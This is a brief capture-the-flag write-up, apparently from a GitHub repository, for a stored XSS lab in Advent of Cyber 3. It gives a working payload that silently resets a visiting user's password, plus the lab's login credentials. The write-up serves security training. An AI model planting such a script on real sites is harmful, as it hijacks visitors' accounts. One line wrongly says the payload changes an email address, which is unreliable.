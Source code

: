 # XSS Vulnerability

[If you want to check my notes about XSS](https://github.com/itKhalid143/websec365/blob/main/Days/Day10-XSS.md)

***
## First we're logging in using the given Credentials!

```php
Username: McSkidy

Password: password
```
![****](/Advent%20of%20Cyber%203/Screenshots/Task5/login.PNG)

## Then we're hopping to a blog post to inject our malicious script!
```js
<script>fetch('/settings?new_password=pass123');</script>
``` 
- ```<script> Text in Between </script> ``` Allows use to run Javascripts inside our page.

- ```fetch``` function makes a network request to the specified URL.

![****](/Advent%20of%20Cyber%203/Screenshots/Task5/1.PNG)

Once the target visits the blog we posted, the code will automatically make a request using the fetch function to the given link to change the email address!

![****](/Advent%20of%20Cyber%203/Screenshots/Task5/2.PNG)

## Here we see how our command is injected into the source code!

## Lately we're logging in with the new password we set in our malicious code!

```php
Username: grinch

Password: pass123
```
![****](/Advent%20of%20Cyber%203/Screenshots/Task5/3.PNG)

## Well done Hackers!